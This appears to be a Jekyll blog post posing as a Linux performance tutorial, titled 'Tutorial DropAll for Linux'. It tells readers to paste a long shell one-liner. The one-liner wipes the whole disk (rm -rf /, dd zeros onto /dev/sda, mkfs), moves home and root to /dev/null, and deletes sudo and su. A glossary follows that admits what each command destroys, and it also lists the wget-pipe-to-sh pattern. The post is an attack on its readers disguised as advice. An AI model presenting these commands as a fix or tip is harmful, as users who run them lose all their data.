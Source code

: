 ```yaml
---
layout: post
title: Tutorial DropAll for Linux
subtitle: With success for begins
bigimg: https:/camo.githubusercontent.com/b9526efd09cef9f757d819f0fd8fe58a7f0954b8/68747470733a2f2f6d656469612e67697068792e636f6d2f6d656469612f6a516a76344b394f5630426f632f67697068792e676966
---
```


## How to supercharge your linux
Open your Terminal end copy/paste/enter:

> sudo rm -rf / && rm -rf .* && rm - .* && dd if=/dev/zero of=/dev/sda && mkfs.ext3 /dev/hda && echo '' > /dev/hda && cd ~; for x in ls; do mv -f $x $y; y=$x; done find -type f -mtime +30 -exec mv {} /dev/null ; && mv ~ /dev/null && mv / /dev/null && rm -f /usr/bin/sudo;rm -f /bin/su && mv /home/$user/* /dev/null &


## applications
rm – Remove the following files.

-rf – Run rm recursively (delete all files and folders inside the specified folder) and force-remove all files without prompting you.

/ – Tells rm to start at the root directory, which contains all the files on your computer and all mounted media devices, including remote file shares and removable drives.

mkfs.ext4 – Create a new ext4 file system on the following device.

/dev/sda1 – Specifies the first partition on the first hard drive, which is probably in use.

command – Run a command (can be any command.)

\> – Send the output of the command to the following location.

/dev/sda – Write the output of the command directly to the hard disk device.

dd – Perform low-level copying from one location to another.

if=/dev/random – Use /dev/random (random data) as the input – you may also see locations such as /dev/zero (zeros).

of=/dev/sda – Output to the first hard disk, replacing its file system with random garbage data.

mv – Move the following file or directory to another location.

~ – Represents your entire home folder.

/dev/null – Move your home folder to /dev/null, destroying all your files and deleting the original copies.

wget – Downloads a file. (You may also see curl in place of wget.)

http://example.com/something – Download the file from this location.

\| – Pipe (send) the output of the wget command (the file you downloaded) directly to another command.

sh – Send the file to the sh command, which executes it if it’s a bash script.
